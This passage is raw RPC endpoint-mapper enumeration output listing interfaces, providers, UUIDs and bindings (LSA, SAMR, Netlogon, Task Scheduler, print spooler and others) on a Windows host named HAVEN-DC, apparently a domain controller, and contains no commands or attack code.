          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]
          ncalrpc:[OLECB7F68BB9ACE4B38E32A5BE18896]
          ncalrpc:[LRPC-d6070ab38e62bfa03b]
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]

Protocol: N/A 
Provider: N/A 
UUID    : 0361AE94-0316-4C6C-8AD8-C594375800E2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 5824833B-3C1A-4AD2-BDFD-C31D19E23ED2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : BDAA0970-413B-4A3E-9E5D-F6DC9D7E0760 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 3B338D89-6CFA-44B8-847E-531531BC9992 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 8782D3B9-EBBD-4644-A3D8-E8725381919B v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 085B0334-E454-4D91-9B8C-4134F9E793F3 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4BEC6BB8-B5C2-4B6F-B2C1-5DA5CF92D0D9 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : A4B8D482-80CE-40D6-934D-B22A01A44FE7 v1.0 LicenseManager
Bindings: 
          ncalrpc:[LicenseServiceEndpoint]

Protocol: N/A 
Provider: nsisvc.dll 
UUID    : 7EA70BCF-48AF-4F6A-8968-6A440754D5FA v1.0 NSI server endpoint
Bindings: 
          ncalrpc:[LRPC-31bd0ffbeab168f7c9]

Protocol: N/A 
Provider: N/A 
UUID    : 3473DD4D-2E88-4006-9CBA-22570909DD10 v5.1 WinHttp Auto-Proxy Service
Bindings: 
          ncalrpc:[9896a839-91f1-4858-ab0d-515d490f2adb]
          ncalrpc:[LRPC-08f5583b54d79b73f9]
          ncacn_ip_tcp:10.10.219.247[49665]
          ncacn_np:\\HAVEN-DC[\pipe\eventlog]
          ncalrpc:[eventlog]
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[dhcpcsvc]
          ncalrpc:[LRPC-773a115898129fd938]
          ncalrpc:[LRPC-8334f5dedb7d1f59bd]
          ncalrpc:[LRPC-1a295d9a9e84a00aea]

Protocol: [MS-EVEN6]: EventLog Remoting Protocol 
Provider: wevtsvc.dll 
UUID    : F6BEAFF7-1E19-4FBB-9F8F-B89E2018337C v1.0 Event log TCPIP
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49665]
          ncacn_np:\\HAVEN-DC[\pipe\eventlog]
          ncalrpc:[eventlog]
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[dhcpcsvc]
          ncalrpc:[LRPC-773a115898129fd938]
          ncalrpc:[LRPC-8334f5dedb7d1f59bd]
          ncalrpc:[LRPC-1a295d9a9e84a00aea]

Protocol: N/A 
Provider: dhcpcsvc6.dll 
UUID    : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D6 v1.0 DHCPv6 Client LRPC Endpoint
Bindings: 
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[dhcpcsvc]
          ncalrpc:[LRPC-773a115898129fd938]
          ncalrpc:[LRPC-8334f5dedb7d1f59bd]
          ncalrpc:[LRPC-1a295d9a9e84a00aea]

Protocol: N/A 
Provider: dhcpcsvc.dll 
UUID    : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D5 v1.0 DHCP Client LRPC Endpoint
Bindings: 
          ncalrpc:[dhcpcsvc]
          ncalrpc:[LRPC-773a115898129fd938]
          ncalrpc:[LRPC-8334f5dedb7d1f59bd]
          ncalrpc:[LRPC-1a295d9a9e84a00aea]

Protocol: N/A 
Provider: N/A 
UUID    : A500D4C6-0DD1-4543-BC0C-D5F93486EAF8 v1.0 
Bindings: 
          ncalrpc:[LRPC-773a115898129fd938]
          ncalrpc:[LRPC-8334f5dedb7d1f59bd]
          ncalrpc:[LRPC-1a295d9a9e84a00aea]

Protocol: N/A 
Provider: nrpsrv.dll 
UUID    : 30ADC50C-5CBC-46CE-9A0E-91914789E23C v1.0 NRP server endpoint
Bindings: 
          ncalrpc:[LRPC-1a295d9a9e84a00aea]

Protocol: N/A 
Provider: N/A 
UUID    : BF4DC912-E52F-4904-8EBE-9317C1BDD497 v1.0 
Bindings: 
          ncalrpc:[LRPC-876988905ab8b6567c]
          ncalrpc:[LRPC-794066c1ed3858ed84]
          ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
          ncalrpc:[LRPC-9e3d4b92407c9d8de2]
          ncalrpc:[OLEEAC10B1CD0F60487AE11EC14C732]
          ncalrpc:[LRPC-0ae768bccca5018db1]
          ncalrpc:[LRPC-45bbe3704ebd0c09d0]

Protocol: N/A 
Provider: sysmain.dll 
UUID    : B58AA02E-2884-4E97-8176-4EE06D794184 v1.0 
Bindings: 
          ncalrpc:[LRPC-794066c1ed3858ed84]
          ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
          ncalrpc:[LRPC-9e3d4b92407c9d8de2]
          ncalrpc:[OLEEAC10B1CD0F60487AE11EC14C732]
          ncalrpc:[LRPC-0ae768bccca5018db1]
          ncalrpc:[LRPC-45bbe3704ebd0c09d0]

Protocol: N/A 
Provider: N/A 
UUID    : E40F7B57-7A25-4CD3-A135-7F7D3DF9D16B v1.0 Network Connection Broker server endpoint
Bindings: 
          ncalrpc:[LRPC-9e3d4b92407c9d8de2]
          ncalrpc:[OLEEAC10B1CD0F60487AE11EC14C732]
          ncalrpc:[LRPC-0ae768bccca5018db1]
          ncalrpc:[LRPC-45bbe3704ebd0c09d0]

Protocol: N/A 
Provider: N/A 
UUID    : 880FD55E-43B9-11E0-B1A8-CF4EDFD72085 v1.0 KAPI Service endpoint
Bindings: 
          ncalrpc:[LRPC-9e3d4b92407c9d8de2]
          ncalrpc:[OLEEAC10B1CD0F60487AE11EC14C732]
          ncalrpc:[LRPC-0ae768bccca5018db1]
          ncalrpc:[LRPC-45bbe3704ebd0c09d0]

Protocol: N/A 
Provider: N/A 
UUID    : 5222821F-D5E2-4885-84F1-5F6185A0EC41 v1.0 Network Connection Broker server endpoint for NCB Reset module
Bindings: 
          ncalrpc:[LRPC-0ae768bccca5018db1]
          ncalrpc:[LRPC-45bbe3704ebd0c09d0]

Protocol: N/A 
Provider: N/A 
UUID    : 572E35B4-1344-4565-96A1-F5DF3BFA89BB v1.0 LiveIdSvcNotify RPC Interface
Bindings: 
          ncalrpc:[liveidsvcnotify]

Protocol: N/A 
Provider: N/A 
UUID    : FAF2447B-B348-4FEB-8DBE-BEEE5B7F7778 v1.0 OnlineProviderCert RPC Interface
Bindings: 
          ncalrpc:[LRPC-99b66ece96dd1f6475]

Protocol: N/A 
Provider: N/A 
UUID    : CC105610-DA03-467E-BC73-5B9E2937458D v1.0 LiveIdSvc RPC Interface
Bindings: 
          ncalrpc:[LRPC-99b66ece96dd1f6475]

Protocol: N/A 
Provider: N/A 
UUID    : 0D3C7F20-1C8D-4654-A1B3-51563B298BDA v1.0 UserMgrCli
Bindings: 
          ncalrpc:[LRPC-a12b8f7fb50662a89d]
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : B18FBAB6-56F8-4702-84E0-41053293A869 v1.0 UserMgrCli
Bindings: 
          ncalrpc:[LRPC-a12b8f7fb50662a89d]
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: IKEEXT.DLL 
UUID    : A398E520-D59A-4BDD-AA7A-3C1E0303A511 v1.0 IKE/Authip API
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : C49A5A70-8A7F-4E70-BA16-1E8F1F193EF1 v1.0 Adh APIs
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : C36BE077-E14B-4FE9-8ABC-E856EF4F048B v1.0 Proxy Manager client server endpoint
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : 2E6035B2-E8F1-41A7-A044-656B439C4C34 v1.0 Proxy Manager provider server endpoint
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: iphlpsvc.dll 
UUID    : 552D076A-CB29-4E44-8B6A-D15E59E2C0AF v1.0 IP Transition Configuration endpoint
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : 29770A8F-829B-4158-90A2-78CD488501F7 v1.0 
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : 3A9EF155-691D-4449-8D05-09AD57031823 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: schedsvc.dll 
UUID    : 86D35949-83C9-4044-B424-DB363231FD0C v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49669]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: N/A 
UUID    : 33D84484-3626-47EE-8C6F-E7E98B113BE1 v2.0 
Bindings: 
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: taskcomp.dll 
UUID    : 378E52B0-C0A9-11CF-822D-00AA0051E40F v1.0 
Bindings: 
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: taskcomp.dll 
UUID    : 1FF70682-0A51-30E8-076D-740BE8CEE98B v1.0 
Bindings: 
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: schedsvc.dll 
UUID    : 0A74EF1C-41A4-4E06-83AE-DC74FB1CDD53 v1.0 
Bindings: 
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]

Protocol: N/A 
Provider: gpsvc.dll 
UUID    : 2EB08E3E-639F-4FBA-97B1-14F878961076 v1.0 Group Policy RPC Interface
Bindings: 
          ncalrpc:[LRPC-eb361f4787d9f4abc5]

Protocol: N/A 
Provider: MPSSVC.dll 
UUID    : 2FB92682-6599-42DC-AE13-BD2CA89BD11C v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-98b4c57aecb4acd857]
          ncalrpc:[LRPC-2b0dbcbaf6f75ec53c]
          ncalrpc:[LRPC-cdacf3f5a34740370c]
          ncalrpc:[LRPC-e05a3526e44e78c085]

Protocol: N/A 
Provider: N/A 
UUID    : F47433C3-3E9D-4157-AAD4-83AA1F5C2D4C v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-2b0dbcbaf6f75ec53c]
          ncalrpc:[LRPC-cdacf3f5a34740370c]
          ncalrpc:[LRPC-e05a3526e44e78c085]

Protocol: N/A 
Provider: MPSSVC.dll 
UUID    : 7F9D11BF-7FB9-436B-A812-B2D50C5D4C03 v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-cdacf3f5a34740370c]
          ncalrpc:[LRPC-e05a3526e44e78c085]

Protocol: N/A 
Provider: BFE.DLL 
UUID    : DD490425-5325-4565-B774-7E27D6C09C24 v1.0 Base Firewall Engine API
Bindings: 
          ncalrpc:[LRPC-e05a3526e44e78c085]

Protocol: N/A 
Provider: N/A 
UUID    : C2D1B5DD-FA81-4460-9DD6-E7658B85454B v1.0 
Bindings: 
          ncalrpc:[LRPC-4040bd6f87451f9cfc]
          ncalrpc:[OLE8F92B9255070393385B30B893AF2]

Protocol: N/A 
Provider: N/A 
UUID    : F44E62AF-DAB1-44C2-8013-049A9DE417D6 v1.0 
Bindings: 
          ncalrpc:[LRPC-4040bd6f87451f9cfc]
          ncalrpc:[OLE8F92B9255070393385B30B893AF2]

Protocol: N/A 
Provider: N/A 
UUID    : 7AEB6705-3AE6-471A-882D-F39C109EDC12 v1.0 
Bindings: 
          ncalrpc:[LRPC-4040bd6f87451f9cfc]
          ncalrpc:[OLE8F92B9255070393385B30B893AF2]

Protocol: N/A 
Provider: N/A 
UUID    : E7F76134-9EF5-4949-A2D6-3368CC0988F3 v1.0 
Bindings: 
          ncalrpc:[LRPC-4040bd6f87451f9cfc]
          ncalrpc:[OLE8F92B9255070393385B30B893AF2]

Protocol: N/A 
Provider: N/A 
UUID    : B37F900A-EAE4-4304-A2AB-12BB668C0188 v1.0 
Bindings: 
          ncalrpc:[LRPC-4040bd6f87451f9cfc]
          ncalrpc:[OLE8F92B9255070393385B30B893AF2]

Protocol: N/A 
Provider: N/A 
UUID    : ABFB6CA3-0C5E-4734-9285-0AEE72FE8D1C v1.0 
Bindings: 
          ncalrpc:[LRPC-4040bd6f87451f9cfc]
          ncalrpc:[OLE8F92B9255070393385B30B893AF2]

Protocol: N/A 
Provider: certprop.dll 
UUID    : 30B044A5-A225-43F0-B3A4-E060DF91F9C1 v1.0 
Bindings: 
          ncalrpc:[LRPC-283d08cfa2e4345aad]

Protocol: N/A 
Provider: N/A 
UUID    : 7F1343FE-50A9-4927-A778-0C5859517BAC v1.0 DfsDs service
Bindings: 
          ncacn_np:\\HAVEN-DC[\PIPE\wkssvc]
          ncalrpc:[nlaapi]
          ncalrpc:[nlaplg]
          ncalrpc:[DNSResolver]

Protocol: N/A 
Provider: N/A 
UUID    : EB081A0D-10EE-478A-A1DD-50995283E7A8 v3.0 Witness Client Test Interface
Bindings: 
          ncalrpc:[nlaapi]
          ncalrpc:[nlaplg]
          ncalrpc:[DNSResolver]

Protocol: N/A 
Provider: N/A 
UUID    : F2C9B409-C1C9-4100-8639-D8AB1486694A v1.0 Witness Client Upcall Server
Bindings: 
          ncalrpc:[nlaapi]
          ncalrpc:[nlaplg]
          ncalrpc:[DNSResolver]

Protocol: [MS-NRPC]: Netlogon Remote Protocol 
Provider: netlogon.dll 
UUID    : 12345678-1234-ABCD-EF00-01234567CFFB v1.0 
Bindings: 
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.219.247[49676]
          ncacn_np:\\HAVEN-DC[\pipe\1e10c71b8275ebf0]
          ncacn_http:10.10.219.247[49675]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\HAVEN-DC[\pipe\lsass]

Protocol: [MS-RAA]: Remote Authorization API Protocol 
Provider: N/A 
UUID    : 0B1C2170-5732-4E0E-8CD3-D9B16F3B84D7 v0.0 RemoteAccessCheck
Bindings: 
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.219.247[49676]
          ncacn_np:\\HAVEN-DC[\pipe\1e10c71b8275ebf0]
          ncacn_http:10.10.219.247[49675]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.219.247[49676]
          ncacn_np:\\HAVEN-DC[\pipe\1e10c71b8275ebf0]
          ncacn_http:10.10.219.247[49675]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\HAVEN-DC[\pipe\lsass]

Protocol: [MS-SAMR]: Security Account Manager (SAM) Remote Protocol 
Provider: samsrv.dll 
UUID    : 12345778-1234-ABCD-EF00-0123456789AC v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49676]
          ncacn_np:\\HAVEN-DC[\pipe\1e10c71b8275ebf0]
          ncacn_http:10.10.219.247[49675]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]

Protocol: [MS-FRS2]: Distributed File System Replication Protocol 
Provider: dfsrmig.exe 
UUID    : 897E2E5F-93F3-4376-9C9C-FD2277495C27 v1.0 Frs2 Service
Bindings: 
          ncalrpc:[OLE589A9535C843A4325521BF328587]
          ncacn_ip_tcp:10.10.219.247[49845]

Protocol: [MS-CMPO]: MSDTC Connection Manager: 
Provider: msdtcprx.dll 
UUID    : 906B0CE0-C70B-1067-B317-00DD010662DA v1.0 
Bindings: 
          ncalrpc:[LRPC-359045cace6fb68ba6]
          ncalrpc:[LRPC-359045cace6fb68ba6]
          ncalrpc:[LRPC-359045cace6fb68ba6]

Protocol: [MS-DNSP]: Domain Name Service (DNS) Server Management 
Provider: dns.exe 
UUID    : 50ABC2A4-574D-40B3-9D66-EE4FD5FBA076 v5.0 
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49709]

Protocol: N/A 
Provider: N/A 
UUID    : F3F09FFD-FBCF-4291-944D-70AD6E0E73BB v1.0 
Bindings: 
          ncalrpc:[LRPC-e2c4caa02afb5e4021]

Protocol: [MS-SCMR]: Service Control Manager Remote Protocol 
Provider: services.exe 
UUID    : 367ABB81-9844-35F1-AD32-98F038001003 v2.0 
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49694]

Protocol: N/A 
Provider: N/A 
UUID    : 64D1D045-F675-460B-8A94-570246B36DAB v1.0 CLIPSVC Default RPC Interface
Bindings: 
          ncalrpc:[ClipServiceTransportEndpoint-00001]

Protocol: N/A 
Provider: N/A 
UUID    : 4C9DBF19-D39E-4BB9-90EE-8F7179B20283 v1.0 
Bindings: 
          ncalrpc:[LRPC-9208bc5a90bd1b59fd]

Protocol: N/A 
Provider: N/A 
UUID    : FD8BE72B-A9CD-4B2C-A9CA-4DED242FBE4D v1.0 
Bindings: 
          ncalrpc:[LRPC-9208bc5a90bd1b59fd]

Protocol: N/A 
Provider: N/A 
UUID    : 95095EC8-32EA-4EB0-A3E2-041F97B36168 v1.0 
Bindings: 
          ncalrpc:[LRPC-9208bc5a90bd1b59fd]

Protocol: N/A 
Provider: N/A 
UUID    : E38F5360-8572-473E-B696-1B46873BEEAB v1.0 
Bindings: 
          ncalrpc:[LRPC-9208bc5a90bd1b59fd]

Protocol: N/A 
Provider: N/A 
UUID    : D22895EF-AFF4-42C5-A5B2-B14466D34AB4 v1.0 
Bindings: 
          ncalrpc:[LRPC-9208bc5a90bd1b59fd]

Protocol: N/A 
Provider: N/A 
UUID    : 98CD761E-E77D-41C8-A3C0-0FB756D90EC2 v1.0 
Bindings: 
          ncalrpc:[LRPC-9208bc5a90bd1b59fd]

Protocol: N/A 
Provider: sppsvc.exe 
UUID    : 9435CC56-1D9C-4924-AC7D-B60A2C3520E1 v1.0 SPPSVC Default RPC Interface
Bindings: 
          ncalrpc:[SPPCTransportEndpoint-00001]

Protocol: N/A 
Provider: N/A 
UUID    : DF4DF73A-C52D-4E3A-8003-8437FDF8302A v0.0 WM_WindowManagerRPC\Server
Bindings: 
          ncalrpc:[LRPC-5cd3e1a91a5de74172]

Protocol: [MS-RPRN]: Print System Remote Protocol 
Provider: spoolsv.exe 
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0 
Bindings: 
          ncalrpc:[LRPC-7955ec3e90dbd131dc]
          ncacn_ip_tcp:10.10.219.247[49679]

Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol 
Provider: spoolsv.exe 
UUID    : 0B6EDBFA-4A24-4FC6-8A23-942B1ECA65D1 v1.0 
Bindings: 
          ncalrpc:[LRPC-7955ec3e90dbd131dc]
          ncacn_ip_tcp:10.10.219.247[49679]

Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol 
Provider: spoolsv.exe 
UUID    : AE33069B-A2A8-46EE-A235-DDFD339BE281 v1.0 
Bindings: 
          ncalrpc:[LRPC-7955ec3e90dbd131dc]
          ncacn_ip_tcp:10.10.219.247[49679]

Protocol: N/A 
Provider: spoolsv.exe 
UUID    : 4A452661-8290-4B36-8FBE-7F4093A94978 v1.0 
Bindings: 
          ncalrpc:[LRPC-7955ec3e90dbd131dc]
          ncacn_ip_tcp:10.10.219.247[49679]

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Provider: spoolsv.exe 
UUID    : 76F03F96-CDFD-44FC-A22C-64950A001209 v1.0 
Bindings: 
          ncalrpc:[LRPC-7955ec3e90dbd131dc]
          ncacn_ip_tcp:10.10.219.247[49679]

Protocol: N/A 
Provider: srvsvc.dll 
UUID    : 98716D03-89AC-44C7-BB8C-285824E51C4A v1.0 XactSrv service
Bindings: 
          ncalrpc:[LRPC-1032ccdbe67b83a767]

Protocol: N/A 
Provider: N/A 
UUID    : 1A0D010F-1C33-432C-B0F5-8CF4E8053099 v1.0 IdSegSrv service
Bindings: 
          ncalrpc:[LRPC-1032ccdbe67b83a767]

Protocol: [MS-FASP]: Firewall and Advanced Security Protocol 
Provider: FwRemoteSvr.dll 
UUID    : 6B5BDD1E-528C-422C-AF8C-A4079BE4FE48 v1.0 Remote Fw APIs
Bindings: 
          ncalrpc:[ipsec]
          ncacn_ip_tcp:10.10.219.247[49672]

Protocol: N/A 
Provider: N/A 
UUID    : B25A52BF-E5DD-4F4A-AEA6-8CA7272A0E86 v2.0 KeyIso
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
